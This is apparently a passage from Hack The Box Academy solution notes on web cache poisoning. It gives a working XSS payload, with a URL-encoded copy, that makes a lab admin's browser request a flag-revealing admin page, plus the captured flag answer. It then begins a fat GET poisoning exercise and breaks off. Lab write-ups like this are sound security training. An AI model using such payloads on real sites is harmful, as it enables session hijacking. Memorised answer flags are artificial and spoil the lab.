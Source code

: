 Code: js

```js
"><script>var xhr=new XMLHttpRequest();xhr.open('GET', '/admin.php?reveal_flag=1', true);xhr.withCredentials=true;xhr.send();</script>
```

Students need to URL-encode the payload:

Code: js

```js
%22%3E%3Cscript%3Evar%20xhr=new%20XMLHttpRequest();xhr.open('GET',%20'/admin.php?reveal_flag=1',%20true);xhr.withCredentials=true;xhr.send();%3C/script%3E
```

The "language" parameter needs to be set to `de` while the "content" parameter needs to be set to the XSS payload:

![[HTB Solutions/CWEE/z. images/58fea608f0da6141bd9dde43b0b9cced_MD5.jpg]]

After waiting for a few seconds and then visiting `/flag.php`, students will notice that the admin have triggered the XSS injection payload, revealing the flag `HTB{38eb00cfc8f39eedb3d4fbe4e56512c5}`:

![[HTB Solutions/CWEE/z. images/425ab985a7d791a1dddc2fc36c2f4a1f_MD5.jpg]]

Answer: `HTB{38eb00cfc8f39eedb3d4fbe4e56512c5}`

# Advanced Cache Poisoning Techniques

## Question 1

### "Try to use what you learned in this section to exploit fat GET requests on the vhost fatget.wcp.htb to poison the cache and force the admin user to reveal the flag. NOTE: The lab may take a couple of minutes to start up. The cache expires after 2 minutes, so if you accidentally cached an incorrect payload, wait for 2 minutes until the cache expires."

After spawning the target machine, students first need to add the `fatget.wcp.htb` vHost entry into `/etc/hosts`:

Code: shell

```shell
sudo sh -c 'echo "STMIP fatget.wcp.htb" >> /etc/hosts'
```

```
┌─[us-academy-2]─[10.10.14.212]─[htb-ac413848@htb-kj54nnus81]─[~]
└──╼ [★]$ sudo sh -c 'echo "138.68.160.5 fatget.wcp.htb" >> /etc/hosts'
```

When navigating to the website's root webpage, it is important that students include the port number after the domain name:
